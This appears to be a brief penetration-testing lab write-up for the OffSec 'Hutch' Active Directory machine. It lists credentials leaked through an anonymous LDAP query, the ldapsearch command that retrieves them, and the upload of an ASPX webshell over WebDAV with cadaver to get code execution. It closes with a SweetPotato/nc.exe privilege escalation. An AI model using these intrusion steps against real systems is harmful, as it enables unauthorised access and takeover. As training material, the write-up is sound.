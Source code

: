 ### ++ Approach 192.168.250.122 ++
#### Credentials
	* fmcsorley:CrabSharkJellyfish192

#### Services
	##### 53 DNS
		Domain: hutch.offsec
        DC: HUTCHDC.hutch.offsec

	##### 53 DNS
		Kerbrute:
			admin@hutch.offsec

	##### 80 Http
		After retrieve fmcsorley credentials we can upload a shell using **[cadaver](https://github.com/notroj/cadaver)**

	##### 135 RPC
		-

	##### 139,445 SMB
		-

	##### 389,3268 Ldap
		Null session that can retrieve fmcsorley credentials and other usernames

	##### 5985 WinRM
		-

### ++ Vulnerabilities ++

#### Vuln 1: Null session in ldap and sensitive information in there ++
	* With ldapsearch we can retrieve users and some info, as fmcsorley:CrabSharkJellyfish192 credentials
	* Command: ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.214.122" "(objectclass=*)"

### ++ System Interaction ++
#### Foothold as iis apppool\defaultapppool
	* With cadaver we can upload a webshell in IIS service and get RCE
	* Commands: 
		cadaver http://hutch.offsec
		user: fmcsorley
		password: CrabSharkJellyfish192

		dav:/> put /usr/share/webshells/aspx/cmdasp.aspx

	* RCE: http://hutch.offsec/cmdasp.aspx

#### Privilege Escalation 
	* Abuse SeImpersonatePrivilege with SweetPotato and nc.exe